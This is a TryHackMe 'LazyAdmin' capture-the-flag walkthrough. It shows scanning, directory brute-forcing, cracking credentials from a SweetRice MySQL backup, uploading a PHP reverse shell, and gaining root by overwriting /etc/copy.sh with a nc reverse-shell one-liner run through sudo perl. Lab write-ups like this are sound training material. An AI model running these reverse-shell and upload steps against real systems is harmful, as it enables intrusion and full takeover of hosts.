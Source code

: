 # LazyAdmin Room Walkthrough

Link: [TryHackMe LazyAdmin Room](https://tryhackme.com/r/room/lazyadmin)

---

## 1. Scanning for Open Ports

First, let's scan the ports using `Rustscan` and `Nmap`:

![Screenshot 2025-01-21 012352](https://github.com/user-attachments/assets/bdfcd73a-d129-453f-b1cf-2d157d711ea8)

```bash
rustscan -a <target-ip>
```

From the scan results, we identify the following open ports:
- Port 80 (HTTP)
- Port 22 (SSH)

---

## 2. Enumerating the Web Server

Next, use `Nmap` to gather more information about the open ports:

![Screenshot 2025-01-21 012419](https://github.com/user-attachments/assets/9466f616-3641-4b12-9883-1a9e4f6e96f1)

After checking the web page, I found just the default page and nothing there. 
So, I tried to brute-force the page directory.

Using a directory brute-forcing tool like `Ffuf`, `dirb`, or `gobuster`, we will find the `content` page:

```bash
ffuf -u http://<target-ip>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![Screenshot 2025-01-21 012443](https://github.com/user-attachments/assets/83cf4e06-6ebd-4acb-bfc2-b3b0efdc2283)

![Screenshot 2025-01-21 012605](https://github.com/user-attachments/assets/f274d4d2-0456-413c-9f00-7c0fa625d0f3)

We found just a notice, but there's nothing important there. However, now we know that the page is running with a SweetRice application.

Let's enumerate this directory; we might find something important.

![Screenshot 2025-01-21 012457](https://github.com/user-attachments/assets/7f775fe5-366e-4a32-9c4d-ae84c8fc9627)

We discovered a couple of directories and found the admin login page `/as` directory:

![Screenshot 2025-01-21 012548](https://github.com/user-attachments/assets/fca7ee49-66b1-4a33-9948-519272816ab3)

---

## 3. Exploiting SweetRice

After searching, I found two exploits for this application:

### 1. The MySQL Backup File
`https://www.exploit-db.com/exploits/40718`

![Screenshot 2025-01-21 111050](https://github.com/user-attachments/assets/6e25758c-afa6-4c23-a0c9-7f78eeae5624)

We found here that on `/content/inc/mysql_backup/` we will find a MySQL backup file.

![Screenshot 2025-01-21 110950](https://github.com/user-attachments/assets/0938c8c3-da42-4e42-a45e-20e5e39f72a5)

After downloading the file, search for `pass` in the file. Here's what I found:

![Screenshot 2025-01-21 111823](https://github.com/user-attachments/assets/18c47356-816f-41f1-a1c5-dd55a91d4acd)

Here I found admin credentials:
- Username: `manager`
- Password hash: `42f749ade7f9e195bf475f37a44cafcb`

I tried to crack the hash with `crackstation.net`, and the password is: `Password123`.

![Screenshot 2025-01-21 111944](https://github.com/user-attachments/assets/442ba041-077f-4bd3-98ef-92e9a10c6937)

Now let's try to log in:

![Screenshot 2025-01-21 112006](https://github.com/user-attachments/assets/88d85df6-447b-4604-82cf-18254a6e97b7)

And the login was successful.

### 2. Arbitrary File Upload
`https://www.exploit-db.com/exploits/40716`

Here we find that we can upload files to the website.

![Screenshot 2025-01-21 111159](https://github.com/user-attachments/assets/2ba7e4f6-a20e-45f6-a0a9-21c624d1674e)

After reading the code, I found there's an uploading page on `/as/?type=media_center` where we can upload `.php5` files.

![Screenshot 2025-01-21 111254](https://github.com/user-attachments/assets/f4cd87db-b36c-4d25-8598-101e3051c8a4)

Let's get a PHP reverse shell:

![Screenshot 2025-01-21 112516](https://github.com/user-attachments/assets/ffbdc818-0ea1-4037-b1c5-09abd4d4b04c)

Here we found a code for pentestmonkey on GitHub. Just edit the IP and port, make a `.php5` file, and upload it. Here is the file [rev.php5](https://tryhackme.com/r/room/lazyadmin).

![Screenshot 2025-01-21 112545](https://github.com/user-attachments/assets/30c40fe0-5ae7-4e5b-aa68-f6f4ef770cb4)

Listen on your machine with:

```bash
nc -lvnp <your port>
```

Click on the file to run it:

![Screenshot 2025-01-21 113732](https://github.com/user-attachments/assets/8e68e3e2-5e10-4dcf-ba93-fe9829fd4b66)

---

## 4. Privilege Escalation

After we get the reverse shell, let's try to get root.

After some enumeration, I found an interesting thing with sudo files:

```bash
sudo -l
```

We find that we can run `/home/itguy/backup.pl` with sudo perl without a password.

Reading the file, we see it runs `/etc/copy.sh`, which contains this script:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

We can edit the file with our IP and port to get a reverse shell:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your IP> <your port> >/tmp/f" >/etc/copy.sh
```

Now listen with:

```bash
nc -lvnp <your port>
```

Run with sudo:

```bash
sudo perl /home/itguy/backup.pl
```

And here we go, we got root:

![Screenshot 2025-01-21 124425](https://github.com/user-attachments/assets/bab99600-875e-4e18-88b2-cfecce5a0f6f)

![Screenshot 2025-01-21 124433](https://github.com/user-attachments/assets/e685b25f-22c8-45ab-861c-6a66fa6a2216)

---

**Happy Hacking!**
